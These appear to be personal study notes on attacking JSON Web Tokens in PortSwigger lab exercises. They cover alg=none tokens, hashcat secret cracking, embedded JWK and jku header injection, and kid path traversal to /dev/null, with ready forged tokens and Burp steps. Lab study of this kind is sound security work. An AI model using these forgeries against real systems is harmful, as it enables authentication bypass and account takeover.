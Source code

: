 ```
Alg = None
Take the first part and update alg to none, the second part update the admin, and delete the last block, leave the point:
eyJraWQiOiI5ZWVjYjdjMS04MWQ0LTQ0NDQtYmIzZC1kMzkzY2IzN2QxOTciLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE3MDczNDU4NDh9.

Weak key
Common wordlist of secrets: https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list

Jwt self signed JWK header supported (Burp Pro detects this - scan only JWT)
-> Install JWT Editor extension
-> Generate RSA key in extension
-> In repeater jwt tab change value to administrator, then select attack with embedded JWK

JWT arbitrary jku header supported (Burp Pro detects this)
-> Right click on RSA key generated with JWT Editor extension, "copy public key as JWK" and paste it on exploit server inside     { "keys" : []} 
It should look like this:
{ "keys" : [{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "265576ea-fc45-42c8-a21c-5a921c4f37c5",
    "n": "rvYHMqN9Mlgl1wMoXS9y_h6f2zyJMrjBAOI8bs7bzbre1zcVmjbjeF7tYrdCREFKbjby2SSz9hAyPzwhCcwdjH-ITlHfgIn9Avrao9Y6nu801WaQPzvlGBFxgUD3JGsFBxICqNtfJ4h2BLzX1qGJjLdmMqISBXivfpGl4C6vaucsXUmHkK-skpHLdW7PEjZFgP84pGiXKE3lnI0ZMqy0kF_xquJ4A_nv2ehPZvefu9PM9upGoxwmafDDPgwKOEjmYQx1s7Gs7JA4C3TTnPlL378qe4zWeQQ0bc0cAybHCjvzHJtEz1GIY0GRi7iQIE1IprETlIKXaBfV1B_3qqQniQ"
}]}
-> In repeater tab change the kid value for the one on the exploit server, and add a jku header pointing there
{  
    "kid": "265576ea-fc45-42c8-a21c-5a921c4f37c5",  
    "alg": "RS256",  
    "jku": "https://exploit-0a0400f00351e0ac8273837b0178003e.exploit-server.net/exploit"  
}
Change username to admin, sign, and send


JWT authentication bypass via kid header via path traversal
-> Generate New Symetric Key With JWT Editor Extension
-> Replace in the key the "k" value for AA== (null byte)
-> In Repeater change value to administrator, attack with embedded jwk
-> Change first kid value to ../../../../../../../dev/null
{  
    "kid": "../../../../../../../dev/null",  
    "typ": "JWT",  
    "alg": "HS256",  
    "jwk": {  
        "kty": "oct",  
        "kid": "14cfb250-8cdd-4f99-bd47-813983be72d8",  
        "k": "AA=="  
    }  
}
-> Sign & send
```
##### Edit in Burpsuite
Take the second part of the jwt which is user data
![[Pasted image 20240207222524.png]]
Apply the changes on the inpsector
Or use JWT editor extension

##### Set alg to none
Take the first part and update alg to none, the second part update the admin, and delete the last block, leave the point:
```
eyJraWQiOiI5ZWVjYjdjMS04MWQ0LTQ0NDQtYmIzZC1kMzkzY2IzN2QxOTciLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE3MDczNDU4NDh9.
```


##### Brute force JWT secrets
`hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list (rockyou.txt`
```
eyJraWQiOiJmYzExMWMyNy00OGY1LTRiNTgtYjhmZC01ZWE3YzgxODdkZjQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNzM5MDgxNH0.f_ExiMc63Kt203UHu6jrRSTGt6tQ86hKCgIM9s8Bh4U:secret1
```
Forge again in jwt.io
![[Pasted image 20240208111530.png]]


##### Change verify signature
With jet key editor extension go to the right top tab, generate RSA key, then go back to the repeater web token tab, attack with embedded key

##### Injecting a key in the jku
![[Pasted image 20240208122624.png]]
On the exploit server inside of brackets { "keys" : []} copy public key as JWK of the RSA key generated
- Change the kid in the repeater for the one of the public key
- Change username to admin
- Add jku with value exploit server
- sign request
- send

##### JWT # authentication bypass via kid header via path traversal
- **New Symmetric Key**.
- In the dialog, click **Generate** to generate a new key in JWK format. Note that you don't need to select a key size as this will automatically be updated later.
- Replace the generated value for the `k` property with a Base64-encoded null byte (`AA==`). Note that this is just a workaround because the JWT Editor extension won't allow you to sign tokens using an empty string.
- Click **OK** to save the key.
- In the header of the JWT, change the value of the `kid` parameter to a path traversal sequence pointing to the `/dev/null` file:
    `../../../../../../../dev/null`
- In the JWT payload, change the value of the `sub` claim to `administrator` 
- At the bottom of the tab, click **Sign**, then select the symmetric key that you generated in the previous section.
